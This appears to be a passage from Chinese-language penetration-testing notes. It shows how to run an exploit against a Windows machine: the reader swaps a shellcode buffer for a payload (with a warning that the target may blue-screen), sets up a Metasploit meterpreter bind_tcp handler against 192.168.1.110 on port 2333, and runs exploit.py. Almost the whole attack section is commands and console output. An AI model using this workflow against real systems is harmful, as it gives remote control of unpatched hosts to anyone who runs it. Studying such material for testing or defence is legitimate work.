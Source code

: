 ![img](../../../.vuepress/public/img/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

`buf 要替换为 USER_PAYLOAD`，使用 MSF, `注意有蓝屏概率`

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

